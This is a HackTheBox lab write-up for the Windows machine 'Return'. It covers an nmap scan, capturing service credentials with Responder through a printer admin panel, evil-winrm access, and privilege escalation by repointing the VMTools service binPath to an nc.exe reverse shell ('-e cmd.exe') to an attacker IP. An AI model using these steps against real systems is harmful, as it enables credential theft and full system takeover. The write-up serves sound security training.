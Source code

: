 ```yaml
---
title: "HackTheBox - Return"
author: Nasrallah
description: ""
date: 2023-04-15 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, responder, group]
img_path: /assets/img/hackthebox/machines/return
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Return](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.108
Host is up (0.20s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-08 12:39:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-08T12:39:21
|_  start_date: N/A
```

From the open ports, it's seems like we're dealing with a windows domain controller.

### Web

Let's navigate to the web page.

![](1.png)

It's a printer admin panel, let's got to `Settings` page

![](2.png)

In this page we can make some sort of an update, we can see a hidden password.

### Burp

Let's start `Burp suite` an intercept the update request, maybe we can read the password.

![](3.png)

The password did not get sent, only the `ip`.

Here i thought that the update still must be done and a request is sent to the ip we specify in the request.

## **Foothold**

Let's test that theory by running `responder` and changing the ip value in the request from `printer.return.local` to out tun0 ip.

![](4.png)

We got the password for `printer-svc`, let's use `evil-winrm` to connect to the target.

![](5.png)

We got a shell

## **Privilege Escalation**

Let's check our groups.

```terminal
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

```

We see that we're part of `Server Operators` group, this allow us to start and stop services.

Let's list running services with the command `services`

```terminal
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services        
                                                                               
Path                                                                                                                 Privileges Service                       
----                                                                                                                 ---------- -------                       
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS                          
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796                 
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc    
```

We notice the service VMTools.

The way we're going to exploit this service is to modify the binary path to execute a command of our choice.

After we upload a copy of netcat, we can set the binpath to send us a shell using netcat. This can be done with the following command.

```terminal
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe 10.10.17.90 9001 -e cmd.exe"
```

Next we stop the service and start it. with `sc.exe stop VMTools` `sc.exe start VMTools`.

![](6.png)

We got a shell as SYSTEM.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).